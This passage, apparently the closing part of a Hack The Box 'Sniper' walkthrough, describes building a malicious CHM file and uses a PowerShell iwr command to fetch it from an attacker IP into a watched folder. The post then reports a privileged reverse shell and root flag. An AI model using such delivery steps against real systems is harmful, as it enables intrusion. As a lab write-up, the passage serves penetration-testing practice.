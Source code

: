 <div class="filename"><span>evil.hpp</span></div>

```
[FILES]
C:\Users\bernard\Downloads\a.html
```

Let's compile it.

<a class="image-popup">
![3e1f63f1.png](/assets/images/posts/sniper-htb-walkthrough/3e1f63f1.png)
</a>

Time to drop the file into `C:\Docs`.

```
PS C:\Docs> iwr http://10.10.15.171/evil.chm -outf .\instructions.chm
```

Seconds later, a reverse shell with power appear...

<a class="image-popup">
![1468d8cf.png](/assets/images/posts/sniper-htb-walkthrough/1468d8cf.png)
</a>

Getting `root.txt` is trivial.

<a class="image-popup">
![1e500d4c.png](/assets/images/posts/sniper-htb-walkthrough/1e500d4c.png)
</a>

:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/211
[2]: https://www.hackthebox.eu/home/users/profile/27390
[3]: https://www.hackthebox.eu/home/users/profile/8308
[4]: https://www.hackthebox.eu/
